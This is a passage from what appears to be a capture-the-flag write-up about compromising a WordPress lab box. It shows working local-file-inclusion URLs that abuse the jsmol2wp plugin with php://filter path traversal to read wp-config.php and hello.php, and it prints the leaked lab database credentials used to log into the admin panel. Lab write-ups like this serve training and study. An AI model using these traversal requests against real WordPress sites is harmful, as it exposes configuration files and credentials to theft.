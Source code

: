 It found a plugin, and after a google search this version of this plugin is vulnerable to LFI and SSRF<br>
<a href = "https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611/"> https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611/ </a><br>
Now i can read wp-config.php like this:
```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```
The file has some credentials, lets try to login to the admin panel with them(http://www.smol.thm/wp-admin/):
```
/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );
```

<br>
And it worked!<br>
<img src = "wp-admin1.png"><br>

After a little messing around in the wordpress admin panel, the website has a private webmaster tasks page<br>
The page contains a line which says:<br>
```
1- [IMPORTANT] Check Backdoors: Verify the SOURCE CODE of "Hello Dolly" plugin as the site's code revision.
```
I gotta check hello dolly plugin's source code<br>
luckily it is possible because of the LFI vulnerability found recently<br>
```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php
```
And there is an interesting line in it:
